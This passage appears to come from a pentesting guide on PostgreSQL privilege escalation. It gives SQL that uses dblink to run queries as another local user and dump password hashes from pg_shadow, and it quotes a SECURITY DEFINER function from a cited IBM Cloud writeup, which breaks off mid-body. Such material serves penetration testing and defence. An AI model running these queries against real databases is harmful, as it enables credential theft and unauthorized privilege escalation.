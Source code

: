 ```sql
\du * # Get Users
\l    # Get databases
SELECT * FROM dblink('host=127.0.0.1
    port=5432
    user=someuser
    password=supersecret
    dbname=somedb',
    'SELECT usename,passwd from pg_shadow')
RETURNS (result TEXT);
```

> [!WARNING]
> Note that for the previous query to work **the function `dblink` needs to exist**. If it doesn't you could try to create it with
>
> ```sql
> CREATE EXTENSION dblink;
> ```

If you have the password of a user with more privileges, but the user is not allowed to login from an external IP you can use the following function to execute queries as that user:

```sql
SELECT * FROM dblink('host=127.0.0.1
                          user=someuser
                          dbname=somedb',
                         'SELECT usename,passwd from pg_shadow')
                      RETURNS (result TEXT);
```

It's possible to check if this function exists with:

```sql
SELECT * FROM pg_proc WHERE proname='dblink' AND pronargs=2;
```

### **Custom defined function with** SECURITY DEFINER

[**In this writeup**](https://www.wiz.io/blog/hells-keychain-supply-chain-attack-in-ibm-cloud-databases-for-postgresql), pentesters were able to privesc inside a postgres instance provided by IBM, because they **found this function with the SECURITY DEFINER flag**:

<pre class="language-sql"><code class="lang-sql">CREATE OR REPLACE FUNCTION public.create_subscription(IN subscription_name text,IN host_ip text,IN portnum text,IN password text,IN username text,IN db_name text,IN publisher_name text) 
    RETURNS text 
    LANGUAGE 'plpgsql' 
<strong>    VOLATILE SECURITY DEFINER 
</strong>    PARALLEL UNSAFE 
    COST 100 
     
AS $BODY$ 
                DECLARE 
                     persist_dblink_extension boolean; 
                BEGIN 
                    persist_dblink_extension := create_dblink_extension(); 
                    PERFORM dblink_connect(format('dbname=%s', db_name)); 
                    PERFORM dblink_exec(format('CREATE SUBSCRIPTION %s CONNECTION ''host=%s port=%s password=%s user=%s dbname=%s sslmode=require'' PUBLICATION %s', 
                                               subscription_name, host_ip, portNum, password, username, db_name, publisher_name)); 
                    PERFORM dblink_disconnect(); 
… 
</code></pre>
